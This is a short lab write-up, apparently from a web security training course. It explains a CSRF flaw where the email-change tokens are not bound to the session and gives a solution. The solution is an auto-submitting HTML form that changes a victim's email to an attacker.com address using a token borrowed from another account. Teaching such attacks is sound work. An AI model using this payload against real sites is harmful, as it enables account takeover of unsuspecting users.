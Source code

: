This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:
- wiener:peter
- carlos:montoya

# Solution

```html
<form id="autosubmit" action="https://0a1700ce048dee8ec81f8234002a00f7.web-security-academy.net/my-account/change-email" enctype="application/x-www-form-urlencoded" method="POST">
 <input name="email" type="hidden" value="some-other-email@attacker.com" />
 <input required="" type="hidden" name="csrf" value="DO2w6Uh5aFiS4xajqcLc57awKEznJ3kF">
 <input type="submit" value="Submit Request" />
</form>
 
<script>
 document.getElementById("autosubmit").submit();
</script>
```